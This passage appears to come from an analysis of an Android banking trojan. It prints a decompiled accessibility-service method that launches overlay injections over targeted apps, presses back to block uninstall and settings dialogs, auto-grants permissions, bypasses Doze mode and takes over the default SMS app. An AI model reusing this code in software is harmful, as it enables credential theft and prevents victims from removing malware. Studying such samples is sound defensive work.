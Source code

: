 The service also sets up deletion prevention and accessibility disable prevention, So if such dialogue is detected, it exits the dialogue.

A dedicated Xiaomi functionality is run for getting accessibility permission and bypassing DozeMode in addition to setting itself up as the default SMS app.

```java
    public void windowStateChangedEvent(AccessibilityEvent accessibilityEvent) {
        if (accessibilityEvent.getPackageName() == null) {
            return;
        }
        if (UtilGlobal.injectionsEnabled(this) && UtilGlobal.packageHasInjection(this, accessibilityEvent.getPackageName().toString())) {
            Intent intent = new Intent(this, OverlayInjectActivity.class);
            intent.addFlags(268435456);
            intent.addFlags(8388608);
            UtilGlobal.SettingsWrite(this, Constants.appInjectTag, accessibilityEvent.getPackageName().toString());
            startActivity(intent);
        } else if (UtilAccessibility.getEventClassName(accessibilityEvent).equals("com.miui.home.launcher.uninstall.deletedialog")) {
            UtilAccessibility.goBack(this, 2);
        } else if (UtilAccessibility.getEventClassName(accessibilityEvent).equals("com.android.packageinstaller.uninstalleractivity")) {
            UtilAccessibility.goBack(this, 2);
        } else if (accessibilityEvent.getPackageName().equals("com.google.android.packageinstaller")) {
            UtilAccessibility.goBack(this, 2);
        } else if ((accessibilityEvent.getPackageName().equals("com.google.android.apps.messaging") && UtilGlobal.isSmsDefaultAppSet(this)) || ((accessibilityEvent.getPackageName().equals("com.android.mms") && UtilGlobal.isSmsDefaultAppSet(this)) || (accessibilityEvent.getPackageName().equals("com.samsung.android.messaging") && UtilGlobal.isSmsDefaultAppSet(this)))) {
            UtilAccessibility.goBack(this, 1);
        }
        this.modulesManager.performAllNecessary(this, accessibilityEvent);
        if (UtilAccessibility.checkPermissionsClick(this, accessibilityEvent)) {
            UtilGlobal.Log("windowStateChangedEvent", "grantPermissionsClick called");
            UtilAccessibility.grantPermissionsClick(this, accessibilityEvent);
        }
        DozeModeAccessibilityModule.performIfNecessary(this, accessibilityEvent);
        XiaomiDozeModeAccessibilityModule.performIfNecessary(this, accessibilityEvent);
        DisablePreventionAccessibilityModule.performIfNecessary(this, accessibilityEvent);
        DefaultSmsAppAccessibilityModule.performIfNecessary(this, accessibilityEvent);
        DeletionPreventionAccessibilityModule.performIfNecessary(this, accessibilityEvent);
        XiaomiSpecialPermissionInterceptActivityModule.performIfNecessary(this, accessibilityEvent);
        UtilGlobal.Log(TAG, "Marking screen as last seen: " + UtilAccessibility.getEventClassName(accessibilityEvent));
        UtilGlobal.SettingsWrite(this, Constants.lastScreenTag, UtilAccessibility.getEventClassName(accessibilityEvent));
    }
```
